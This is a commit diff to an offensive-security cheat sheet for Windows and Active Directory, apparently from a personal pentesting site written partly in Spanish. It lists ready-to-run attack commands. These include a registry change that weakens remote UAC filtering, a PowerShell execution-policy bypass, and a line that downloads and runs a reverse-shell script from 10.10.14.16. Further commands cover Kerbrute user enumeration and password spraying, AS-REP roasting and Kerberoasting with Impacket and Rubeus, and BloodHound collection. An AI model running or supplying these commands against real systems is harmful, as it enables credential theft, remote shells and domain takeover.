

Before and after one commit to srrequiem/Secronomicon, an MkDocs documentation site: the page built from docs/Cheat Sheets/windows.md, in a window 1280 px wide and 1400 px high, scrolled down 802 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Navigation update + windows cheatsheet restructure

````diff
--- a/docs/Cheat Sheets/windows.md
+++ b/docs/Cheat Sheets/windows.md
@@ -1,12 +1,17 @@
 # Windows
+
 
 ## Crackmapexec `(Pwn3d!)`
 
+
 `cmd.exe /c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f`
+
 
 ## Powershell
 
+
 ### Bypass de execution policy
+
 
 ```powershell
 powerShell.exe -ExecutionPolicy Bypass .\script.ps1
@@ -14,7 +19,9 @@
 
 Refs: https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/
 
+
 ### Invoke command providing credentials
+
 
 ```powershell
 $userName = 'WORKGROUP\Hector'
@@ -32,7 +39,101 @@
 Start-Process -FilePath 'powershell' -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.16/Invoke-PowerShellTcp.ps1')" -Credential $credObject
 ```
 
-## PowerView
+
+## AD Environment
+
+
+### Kerbrute
+
+
+#### Enumeración de usuarios
+
+
+```bash
+./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local users.txt
+```
+
+
+#### Password Spraying
+
+
+```bash
+sudo ntpdate 10.10.11.129
+./kerbrute passwordspray --dc CONTROLLER.local -d CONTROLLER.local users.txt Password123
+```
+
+
+### AS-REP Roasting
+
+
+#### Impacket
+
+
+```bash
+for user in $(cat users.txt); do impacket-GetNPUsers -dc-ip <ip_de_dominio> <dominio>/${user} -no-pass | grep -v Impacket; done
+```
+
+
+#### Rubeus
+
+
+```powershell
+.\Rubeus.exe asreproast # ¿como admin? Ver si se necesitan credenciales
+## .\Rubeus.exe asreproast /creduser:htb.local\amanda /credpassword:Password123 # TODO Verificar
+```
+
+
+### Kerberoasting
+
+
+#### Impacket
+
+
+```bash
+impacket-GetUserSPNs {dominio/usuario:contraseña} -dc-ip {ip de dominio} -request
+```
+
+
+#### Rubeus
+
+
+```powershell
+.\Rubeus.exe kerberoast # Como Administrator
+.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Password123
+```
+
+
+### BloodHound
+
+
+#### BloodHound.py
+
+
+**Nota: Al recopilar la info con la última versión es recomendable usar a su vez también la última versión del visualizador.**
+
+
+##### Setup
+
+
+[Repositorio Github](https://github.com/fox-it/BloodHound.py)
+
+```bash
+pyenv ...
+git clone https://github.com/fox-it/BloodHound.py.git
+cd BloodHound.py
+python setup.py install
+```
+
+
+##### Uso
+
+
+```bash
+python bloodhound.py -u hope.sharp -p 'Password123' -d search.htb -ns 10.10.11.129 -c All
+```
+
+
+### PowerView
 
 | Name | Description | Suggested Execution |
 |---|---|---|
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -16,6 +16,7 @@
     - navigation.top
     - navigation.sections
     - navigation.tracking
+    - navigation.indexes
 
 extra_css:
   - extra.css
````
Also changed, not shown: docs/Cheat Sheets/active_directory.md (deleted, +0 -69 lines).
